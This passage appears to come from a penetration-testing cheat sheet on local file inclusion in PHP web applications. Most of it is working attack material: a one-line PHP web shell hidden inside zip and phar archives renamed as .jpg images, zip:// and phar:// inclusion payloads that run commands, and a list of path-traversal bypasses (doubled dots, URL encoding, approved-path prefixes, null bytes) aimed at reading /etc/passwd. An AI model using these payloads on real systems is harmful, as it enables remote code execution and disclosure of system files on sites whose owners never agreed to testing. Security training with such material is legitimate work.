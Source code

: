 Once this file is uploaded, all we need to do is include it through the LFI vulnerability.
##### Zip Upload

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`)

```
zip://./profile_images/shell.jpg$cmd=id
```
##### Phar Upload

Write the following PHP script into a `shell.php` file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile it into a `phar` file and rename it to `shell.jpg`:
```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a `phar` file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the `phar` sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:

```
phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

### Basic Bypasses

**Non-Recursive Path Traversal Filters**
```
....//....//....//....//etc/passwd
```

**Encoding**
```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

**Approved Paths**
```
./<EXISTING PATH>/../../../../etc/passwd
```

**Null Byte**
```
/etc/passwd%00
/etc/passwd%00.php
```
